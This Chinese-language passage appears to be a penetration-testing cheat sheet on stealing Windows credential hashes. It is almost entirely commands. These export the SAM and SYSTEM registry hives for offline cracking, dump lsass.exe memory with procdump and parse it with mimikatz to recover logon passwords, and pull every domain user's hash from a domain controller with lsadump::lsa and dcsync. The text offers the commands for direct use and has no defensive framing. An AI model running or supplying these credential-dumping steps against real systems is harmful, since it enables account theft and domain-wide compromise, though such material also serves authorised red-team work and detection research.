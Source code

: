 

#### **SAM表获取hash:**

```bash
# 非在线获取，没有将mimikatz传到目标机器上去，就要想办法将这两个文件获取下来（需要管理员权限）
#导出SAM数据
reg save HKLM\SYSTEM SYSTEM
reg save HKLM\SAM SAM

#使用mimikatz提取hash
lsadump::sam /sam:SAM /system:SYSTEM
```







#### **Procdump+Mimikatz：**

当mimikatz无法在主机上运行时，可以使用微软官方发布的工具Procdump导出lsass.exe:

```bash
# 先使用procdump导出文件
procdump.exe -accepteula -ma lsass.exe lsass.dmp

# 再将lsass.dmp下载到本地后，然后执行mimikatz:
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit

# 为了方便复制与查看，还可以输出到本地文件里面：
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" > pssword.txt
```







### 读取域控中域成员Hash

#### 域控本地读取

> 注：得在域控上以域管理员身份执行mimikatz

**方法一：直接执行**

```makefile
#提升权限
privilege::debug

#抓取密码
lsadump::lsa /patch
```



**方法二：**通过 dcsync，利用目录复制服务（DRS）从NTDS.DIT文件中检索密码哈希值，可以在域管权限下执行获取：

```bash
#获取所有域用户
lsadump::dcsync /domain:test.com /all /csv

#指定获取某个用户的hash
lsadump::dcsync /domain:test.com /user:test
```
